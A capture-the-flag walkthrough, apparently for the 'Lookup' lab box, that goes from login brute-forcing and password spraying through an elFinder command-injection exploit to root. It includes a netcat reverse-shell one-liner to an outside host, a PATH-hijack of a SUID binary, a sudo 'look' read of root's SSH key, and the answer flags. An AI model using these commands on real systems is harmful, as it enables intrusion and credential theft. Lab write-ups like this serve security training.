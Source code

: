 # Lookup
(flags are at the end of the writeup)

### Lookup
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Wed Nov 27 17:24:12 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sC -sV -oN scan 10.10.65.102
    Nmap scan report for lookup.thm (10.10.65.102)
    Host is up (0.061s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Login Page
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

If I try to access the webpage, I get redirected to `lookup.thm`:<br />
![image](https://github.com/user-attachments/assets/084acc68-fc20-4967-b497-99d031da7a78)<br />
So add the following line `10.10.65.102 lookup.thm` to the `/etc/hosts` file. It seems like a basic login page. If I try to access with basic credentials such as `admin:password`, I get the following response:<br />
![image](https://github.com/user-attachments/assets/c71eabe3-d2be-4cca-8991-91672308e8a7)<br />
Which is a weird way of handling errors. I tried `sqlmap` but nothig. I have to dig somewhere else.<br />
Next thing I try is to enumerate directories using gobuster: `gobuster dir -u lookup.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt` but nothing was found. <br />
Now I try to enumerate subdomains. I found the subdomain `www.lookup.thm` but it's the same as `lookup.thm` so nothing there. Next, I noticed that if I tried looking with user `admin`, I get the reponse "Wrong password". But if I try to log in with, for example, "john", I get "Wrong username or password." This means that admin should be a valid user. So I try to login into the admin's account using bruteforce with hdyra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"` and it finds something!<br />
![image](https://github.com/user-attachments/assets/d3a9e3c4-b445-4844-bbc6-d38ed1491c6b)<br />
Login fails.. but something strange happens, look:<br />
![image](https://github.com/user-attachments/assets/cec66cdd-cebc-4e4f-8685-5639592ea325)<br />
If I use credentials `admin:password123`, the server responds with "Wrong username or password", which is incoherent with the fact that admin is a valid user. This is really strange and I'm not sure why it behaves like that. But my guess is that it might do this for some server misconfiguration which shows this message if the password is a valid password! So the server might have this weird behaviour:

    1) if username and password are correct --> successful login
    2) if username is incorrect --> wrong username or password
    3) if username is correct but password doesn't exist on the DB --> wrong password
    4) if username is correct and password exists on the DB, but they don't match --> wrong username or password

I know, it's strange, but I don't have any other explanation for that. So since `password123` might be valid, let's try a password spraying attack! I'll bruteforce usernames using this password with hydra: <br />
![image](https://github.com/user-attachments/assets/b9781d2c-324f-47ca-b71d-aee99e19416c)<br />
I found a valid set of credentials! `jose:password123`. If I try to log in, I get redirected to `files.lookup.thm`, so let's add it on the /etc/hosts file.<br />
![image](https://github.com/user-attachments/assets/ff5d452a-3f5b-4b33-b7c2-994bad37727b)<br />
ElFinder is an opensource file management software that wants to offer a desktop-like experience. The version is `2.1.47`. Searching online, I found that this version is vulnerable to command injection, and the exploit is available on metasploit! So open `msfconsole` and run the exploit with the following commands:

    use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
    set lhost YOUR_IP
    set rhosts files.lookup.thm
    run

And it should open a meterpreter session. Now, I can't use metasploit, so I used the `shell` command to drop to a system shell, and then opened a reverse shell on another terminal because I really don't know how to use meterpreter very well, I need to do a tutorial. For the reverse shell I opened a netcat listener on my machine and then used then from the dropped shell I run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 5555 >/tmp/f`.
First thing I notice: the user `think` has the user flag, and inside his home directory I see a `.passwords` file that I can't read. So my guess is that I need to find a way to read that file. <br />
Using linpeas on the target system, I found an interesting binary that might be exploited:<br />
![image](https://github.com/user-attachments/assets/883cfbee-381e-4cee-953c-747b15f65b58)<br />
This is how it behaves: <br />
![image](https://github.com/user-attachments/assets/5122c223-5870-418f-bfa3-8e5f482aa70d)<br />
So it runs the `id` command to find out the user, and then looks for `/home/%user%/.passwords`. I think that my goal is to somehow fool this binary into believing that I'm actually the user `think`.<br /><br />
I decided to analyze this binary using IDA. Here's the main structure: <br />
![image](https://github.com/user-attachments/assets/20a4cbee-8f1d-47d6-882d-74d6eac5f44a)<br />
I'm used to work with the CDECL or STDCALL calling conventions from university, because we only analyzed 32 bit windows executables. This is the first time I'm trying to analyze an ELF file, but it seems very similar. The main diffence I need to know is that the arguments of functions are not pushed on the stack, but are stored on registers. Specifically `rdi`, `rsi`, `rdx` and `rcx`.<br /><br />
From this first block we can see that the binary is calling `popen` with `id` as parameter, so it wants to execute the `id` system command. <br />
This is another interesting block: <br />
![image](https://github.com/user-attachments/assets/7657b367-a033-4068-bd89-6c77f12c19f8)<br />
The binary takes the stdoutput of the `id` command, and then ignores the user-ID (the integer) and only considers the username. Here "uid=%u(%[^)])" is a paramenter of `fscanf` which specifies to ignore the UID, and only take the string that is inside the first two parenthesis. For example, if I now run `id`:<br />
![image](https://github.com/user-attachments/assets/913cb855-f12b-4eb4-aa56-401d2b9031e9)<br />
This binary will only consider the string underlined in red, which is `www-data`.<br />
At this point it tries to read the .passwords file, just like I guessed earlier:<br />
![image](https://github.com/user-attachments/assets/c9b61b17-9bc3-4016-a479-07e23c67c7b0)<br />
So I think I know where the vunlnerability lies. The binary is calling the `id` command, but not `/usr/bin/id` or whatever; the path is relative, not absolute. This means that I can create a custom `id` command on any directory, for example /tmp/, and then change the `PATH` environment variable to search for binaries inside /tmp/ first. So let's try it. I created the custom `id` command inside /tmp/, and it prints echos a string on stdoutput, built to fool the `pwm` binary that I'm actually the user `think`. The code can be found in this folder in the file `fake_id`. Remember to call it `id` and to make it executable with `chmod +x id`. Now we want to change the PATH environment variable: run `export PATH=/tmp:$PATH`. Now if I run `id`:<br />
![image](https://github.com/user-attachments/assets/6cbecb52-7293-410e-8376-a33ac0de5a40)<br />
It executes my `fake_id`. The setup is ready, let's run the vulnerable binary: <br/ >
![image](https://github.com/user-attachments/assets/1c753f57-ae4f-4d84-a83c-e1c1700bf7ba)<br />
It worked! We have a list of passwords! I will now copy this wordlists in a file, and then will use it to bruteforce an ssh login as the user `think`. The command is `hydra -l think -P passwords ssh://10.10.124.210`. And the credentials are `think:josemario.AKA(think)`.<br />
Time to become root. If I run `sudo -l` and prompt the password, I can see that I have sudo privileges on the following binary: <br />
![image](https://github.com/user-attachments/assets/ef14348a-3b6d-4978-b727-99cbcc82607f)<br />
I didn't know this binary. But apparently is a well known binary that will show you all the words (taken from a dictionary in the file system) that start with the input that you provide. I found on [GTFObins](https://gtfobins.github.io/gtfobins/look/#sudo) a way to exploit it to read any files we want, so I used it to read the root flag: <br />
![image](https://github.com/user-attachments/assets/1a95beda-001c-4c3f-9497-8a209979f0ad)<br />
If I wanted to used it to become root, one possible way is to read the private rsa key with `sudo /usr/bin/look '' /root/.ssh/id_rsa`, and then use it to login with ssh. Have a nice rest of your day :)

- What is the user flag? `38375fb4dd8baa2b2039ac03d92b820e`
- What is the root flag? `5a285a9f257e45c68bb6c9f9f57d18e8`

